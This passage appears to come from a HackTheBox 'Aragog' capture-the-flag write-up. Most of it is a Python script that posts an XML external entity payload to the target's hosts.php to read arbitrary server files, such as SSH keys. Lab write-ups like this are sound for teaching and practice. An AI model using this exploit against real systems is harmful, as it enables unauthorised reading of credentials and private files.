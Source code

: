 ```py
    main()
```

We also can do a script to get any archive on the server

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:24:46.png)

auto_lfi_aragog.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto XEE in Aragog to retrieve files

import argparse
import requests
import sys
import os
import re

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

#Function to XEE files
def getXEEKey(rhost,file):
    print("[+] Let's get the file for you !!! [+]")
    url = "http://%s:80/hosts.php" %rhost
    xml_xee = '''<?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data (ANY)>
    <!ENTITY file SYSTEM "file:///%s">
    ]>

    <details>
        <subnet_mask>&file;</subnet_mask>
        <test></test>
    </details> ''' %file
    lfi_file = r.post(url, data=xml_xee, proxies=proxies)
    if lfi_file.status_code == 200:
        match = re.search(r'for .*', lfi_file.text, re.DOTALL).group(0)
        print(match.removeprefix('for ').strip())
    else:
        print("[+] Sorry, file does not exist. Try with another file !! [+]")

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-f', '--file', help='File to be read', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    file = args.file

    '''Here we call the functions'''
    # Let's get the ssh key
    getXEEKey(rhost,file)

if __name__ == '__main__':
    main()
```
